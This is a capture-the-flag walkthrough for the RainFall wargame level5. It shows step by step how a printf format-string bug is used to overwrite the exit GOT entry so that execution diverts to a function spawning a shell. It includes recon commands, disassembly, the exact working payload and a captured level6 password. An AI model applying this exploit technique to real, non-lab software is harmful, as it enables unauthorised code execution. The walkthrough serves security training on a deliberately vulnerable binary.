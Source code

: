 # RainFall — Level5 -> 6 Walkthrough (printf/GOT overwrite)

> Context: `level5` binary (no RELRO, no canary, NX disabled, no PIE). Goal is to pop a shell (function `o`) even though the program calls `exit` from `n`. We’ll abuse a format-string bug in `printf` to overwrite `exit@GOT` with the address of `o`.

---

## 1) Quick recon

```bash
$ file ./level5
$ checksec ./level5
RELRO           STACK CANARY      NX            PIE
No RELRO        No canary found   NX disabled   No PIE
```

Run it:

```bash
$ ./level5
sdfsdf
sdfsdf

$ ./level5
aaaa %p %p %p
aaaa 0x200 0xb7fd1ac0 0xb7ff37d0
```

It **echoes with `printf`** using our input as the *format string* → classic format-string vulnerability.

---

## 2) What does the code do?

Disassemble:

```bash
$ gdb ./level5
(gdb) info functions
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...

(gdb) disas main
0x08048504 <+0>: call 0x80484c2 <n>

(gdb) disas n
0x080484c2 <+0>:   ...
0x080484e5 <+35>:  call fgets
0x080484f3 <+49>:  call printf        ; uses our input as format string
0x080484f8 <+54>:  movl $0x1,(%esp)
0x080484ff <+61>:  call exit          ; program terminates here
```

So `n()` reads a line, **printfs it** (format string bug), then **calls `exit`**.

`o()` is our “win” function:

```bash
(gdb) disas o
0x080484a4 <+0>:  system(0x80485f0)   ; "/bin/sh" string
0x080484bd <+25>: _exit(1)
```

Plan: **overwrite `exit@GOT`** to point at `o`. When `n` calls `exit`, we’ll jump to `o` instead and get a shell.

---

## 3) Leak stack layout to find our arg index

We want to know which **positional specifier** (`%4$n`, `%5$n`, …) will reference a pointer we control.

```bash
$ python -c 'print "aaaa" + " %p" * 10' > /tmp/explo
$ ./level5 < /tmp/explo
aaaa 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161 0x20702520 0x25207025 ...
```

Notice `0x61616161` (= `'aaaa'`) appears as the **4th** printed pointer after the three fixed values.
Therefore, **our first 4 bytes** (from the input buffer) are available to `printf` as the **4th variadic argument** → we’ll use **`%4$n`**.

---

## 4) Find the addresses

* **GOT entry of `exit`:**

```bash
$ objdump -R ./level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

We’ll target: `exit@GOT = 0x08049838`.

* **Address of `o`:** from `gdb`: `o = 0x080484a4`.

We want to write the 32-bit value **`0x080484a4`** into memory at **`0x08049838`**.

---

## 5) Build the format string payload

Format-string trick:

* Put the **target address** at the start of the input so it sits where `printf` will fetch the 4th argument.
* Print **N characters**, then use **`%4$n`** to write that count to the address pointed to by the 4th argument.
* Choose **N = 0x080484a4 (decimal 134,513,828)**, adjusted for whatever bytes `printf` has already emitted before `%d`.

Working payload from your session:

```bash
$ python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"' > /tmp/explo
```

Notes:

* `\x38\x98\x04\x08` is **little-endian** `0x08049838` (the GOT address for `exit`).
* We used `%134513824d` so that **total chars printed** at the moment of `%4$n` equals (in this runtime) the target value `0x080484a4`.
  Minor off-by-few adjustments are **normal** because some leading bytes (like the ASCII `'8'` from `0x38`) get printed and counted. If your value is off, tweak the number.

---

## 6) Trigger the overwrite and get a shell

Run the program with the crafted input:

```bash
$ cat /tmp/explo - | ./level5
```

Now the GOT slot for `exit` points to `o`. The next `exit()` from `n` actually calls `o` → `system("/bin/sh")` drops a shell under `level6`.

Use the implicit shell:

```bash
$ whoami
level6
$ cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

---

## 7) Why this works (quick recap)

* **Vuln:** `printf(user_input)` (format string) lets us read/write arbitrary memory with `%p`, `%n`, etc.
* **No RELRO** means **GOT is writable** at runtime.
* **Overwrite `exit@GOT` → `o`** using `%n`.
* When `n()` calls `exit`, control flow diverts to `o()` → `system("/bin/sh")` → shell.

---

## 8) Troubleshooting tips

* If the program exits without shell: your write likely missed. Re-check:

  * Correct GOT entry (use `objdump -R`).
  * Correct target address of `o`.
  * Correct **positional index** for `%n` (here it’s `%4$n` because our data showed up as the 4th argument).
  * Adjust the decimal padding by a small amount (± a few) until the write lands exactly.
* If the program crashes immediately, you might be writing an impossible value or to the wrong place.
* If blocked by `Permission denied` writing to `/tmp/expl`, use a different filename (you used `/tmp/explo`, which worked).

---

That’s it. Clean, reliable GOT overwrite → shell → grab the next password.
